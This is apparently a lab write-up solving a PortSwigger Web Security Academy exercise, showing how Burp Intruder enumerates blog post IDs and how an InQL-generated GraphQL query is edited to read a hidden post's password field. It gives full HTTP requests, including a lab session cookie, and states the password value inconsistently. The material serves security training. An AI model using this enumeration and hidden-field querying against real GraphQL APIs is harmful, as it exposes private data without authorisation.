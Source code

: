 # Lab: Accessing private GraphQL posts

**Level: APPRENTICE**

### The blog page for this lab contains a hidden blog post that has a secret password.

### To solve the lab, find the hidden blog post and enter the password.

>We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater, and enables you to scan the API schema.

**Go to the lab:**
https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts

**For more information on using InQL, see** [Working with GraphQL in Burp Suite.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql)


**Download the extension here ->** [InQL Scanner BApp Store](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)

---

**Solution**

There are different ways, but I liked this one:

1. Browse the site, clicking on various posts
2. check the proxy history in Burp Suite & notice each one is numbered
3. Since the goal is to find the missing blog post and password, you can do this manually to determine which is absent
4. OR
5. Send one of those `GET /post?postId=1` request to the intruder
6. higlight the post ID number, select a number payload, do **1 -10**, steb by **1**
8. run the attack and notice the response codes
9. Post Id's 1-2 have a response status code of 200
10. 4&5 have 200 response codes
11. But 3 has a 404 not found response
12. and anything 6 and up has a 400

Therefore, `GET /post?postId=3` is the hidden one you need to reveal

So How do you do that?

Send one of the GraphQL queries `POST /graphql/v1`  `web-security-academy.net/graphql/v1` to the repeater.

The request should look like this:

```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Cookie: session=D2XpAN8wg0l2tfdFMV0X6DcQUPGWieHx
Content-Length: 150
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net
Referer: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net/post?postId=2
Priority: u=1, i

{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }",
"operationName":"getBlogPost",
"variables":{
  "id":2
  }
}

```


then, 
**Right-click on the request, select extensions -> InQL Graph Scanner -> Generate Queries with InQL Scanner**


 Now click on the InQL tab and scan the URL that you just sent there. 
 
 It should be this one:
 `web-security-academy.net/graphql/v1`
 
 Click Analyze, and open the `getBlogPosts.graphql` page and send it to repeater.
 Once that request is in the repeater request tab. 
 
 It should look like this:
```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 228

{"query": "query {\n    getBlogPost(id: Int!) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"}

```
**Change the Int!** in the `getBlogPost(id: Int!)` query to `3` and send it.
The response should be the 3rd post, and the `"postPassword": "itsarandomstringoftext",`
will be at the bottom

**The edited request**
```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 225

{"query": "query {\n    getBlogPost(id: 3) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"
}

```

**The response will be the third post and the** "postPassword": "stringoftext", will be at the bottom
<br>
